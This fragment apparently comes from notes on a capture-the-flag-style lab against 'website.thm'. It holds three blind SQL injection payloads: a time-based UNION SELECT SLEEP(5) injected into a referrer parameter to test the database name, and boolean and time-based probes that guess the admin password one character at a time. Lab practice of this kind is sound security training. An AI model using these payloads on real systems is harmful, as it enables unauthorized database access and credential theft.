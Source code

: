 https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%';--